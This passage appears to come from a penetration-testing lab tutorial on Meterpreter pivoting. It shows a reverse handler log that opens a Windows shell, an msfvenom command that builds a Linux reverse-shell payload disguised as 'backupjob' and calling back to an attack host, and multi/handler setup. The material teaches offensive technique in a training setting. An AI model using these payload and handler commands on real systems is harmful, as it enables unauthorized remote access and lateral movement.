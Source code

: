 ### Meterpreter Session Established
```
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

## Meterpreter Tunneling & Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port 8080.

### Creating Payload for Ubuntu Pivot Host
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
Before copying the payload over, we can start a *multi/handler*, also known as a Generic Payload Handler.
### Configuring & Starting the multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```
We can copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.
